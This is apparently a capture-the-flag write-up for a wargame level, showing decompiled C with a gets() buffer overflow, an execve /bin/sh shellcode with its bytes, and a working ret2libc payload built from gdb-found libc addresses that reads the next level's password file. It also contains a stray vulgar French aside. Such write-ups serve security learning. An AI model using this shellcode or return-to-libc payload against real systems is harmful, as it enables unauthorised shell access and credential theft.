 # Level 2
*pass: 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77*

```
void main(void)

{
  p();
  return;
}
```

```
void p(void)
{
  uint unaff_retaddr;
  undefined local_50 [76];
  
  fflush(stdout);
  gets(local_50);
  if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n",unaff_retaddr);
                    /* WARNING: Subroutine does not return */
    _exit(1);
  }
  puts(local_50);
  strdup(local_50);
  return;
}
```

## shellcode
*https://www.coengoedegebure.com/buffer-overflow-attacks-explained/*
```
$ nasm -f elf shellcode.asm
$ objdump -d -M intel shellcode.o

shellcode.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:   31 c0                   xor    eax,eax
   2:   50                      push   eax
   3:   68 2f 2f 73 68          push   0x68732f2f
   8:   68 2f 62 69 6e          push   0x6e69622f
   d:   89 e3                   mov    ebx,esp
   f:   50                      push   eax
  10:   89 e2                   mov    edx,esp
  12:   53                      push   ebx
  13:   89 e1                   mov    ecx,esp
  15:   b0 0b                   mov    al,0xb
  17:   cd 80                   int    0x80
```

shellcode : `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`\
length = 25\
shellcode need to be in the buffer.

Playload length = 84\
Payload: `[ NOP SLED ][ SHELLCODE ][ 16 x 'E' ]`\
NOP-sled value : `\x90`
NOP-sled length = 84 - 25 - 8 = 47


```
$ python -c 'print "\x90" * 39 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x45\x45\x45\x45" * 4' | ./level2
�����������������������������������1�Ph//shh/bin��P��S��
       ̀EEEE
Segmentation fault (core dumped)
```

- Fixing playload
pick an address somewhere in the NOP-sled for the return address to point to.
ouais ouais maris et thomas on raison je fais un truc de merde alors nique
```
(gdb) info proc map
...
        0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
...
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
```

```
(gdb) info funct system
...
0xb7e6b060  system
...
(gdb) info funct exit
...
0x080483d0  _exit
...
```
p return address : 0x0804853e\
`/bin/sh` address : 0xb7f8cc58\
`system` address : 0xb7e6b060\
`exit` address : 0x080483d0

```
$ python -c 'print "a" * 80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "\xd0\x83\x04\x08" + "\x58\xcc\xf8\xb7"' > /tmp/level2
$ cat /tmp/level2 - | ./level2
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
